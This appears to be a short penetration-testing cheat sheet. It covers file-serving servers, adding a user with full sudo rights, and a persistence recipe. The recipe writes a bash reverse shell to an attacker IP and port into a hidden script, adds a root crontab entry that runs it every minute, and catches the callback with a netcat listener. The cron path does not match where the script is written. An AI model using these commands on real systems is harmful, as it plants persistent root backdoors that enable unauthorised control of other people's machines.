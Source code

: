 ```
python3 -m http.server <port>
```

## python smb server
```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

## adding users with root privileges

first
```
adduser <name> 
```
then edit the /etc/sudoers with this 
```
<user> ALL=(ALL:ALL) ALL
```



 
## Remove user from sudoers
```
nano /etc/sudoers
```

or alternative
```
visudo
```

## using crontab to load a script with a reverse shell every 1 minute
first
```
echo "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1" > .persistence.sh
```
then
```
chmod +x .persistence.sh
```
after that you go in to vim
```
vim /etc/crontab
```
and add this 
```
* * * * * root /dev/shm/.persistence.sh
```
save and quit then you can connect with a reverse shell every 1 minute with nc like 
```
nc -lvnp <PORT> 
```
